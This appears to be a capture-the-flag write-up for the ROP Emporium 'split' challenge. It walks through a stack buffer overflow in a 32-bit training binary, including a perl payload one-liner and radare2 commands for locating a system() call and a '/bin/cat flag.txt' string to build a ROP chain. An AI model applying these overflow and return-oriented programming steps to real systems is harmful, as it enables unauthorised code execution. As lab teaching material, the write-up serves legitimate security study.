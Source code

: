 # split
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```
![](./0.png)

Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```
![](./3.png)

Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```
![](./5.png)

As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `"/bin/cat flag.txt"`.

If we can send this string to the `system()` function, we win. Keeping that in mind, let's check the `usefulFunction`.

```
r2 split32
```
```
aa
```
```
afl
```
![](./6.png)
```
pdf @ sym.usefulFunction
```
![](./7.png)

It can be seen that the function as a whole won't help us, but it contains a call to the `system()` function, which we do want. Additionally, the helper function pushes the address of the string `"/bin/ls"` onto the stack. We will aim to create a similar state on the stack, where the address of the `usefulString` is at the top of the stack when the call to `system()` is made.

## Solution
Let's summarize in a tables the details we discovered from the research that are important for the ROP Chain.

| Code                | Address    |
|---------------------|------------|
| call system()       | 0x0804861a |

| String              | Address    |
|---------------------|------------|
| "/bin/cat flag.txt" | 0x0804a030 |

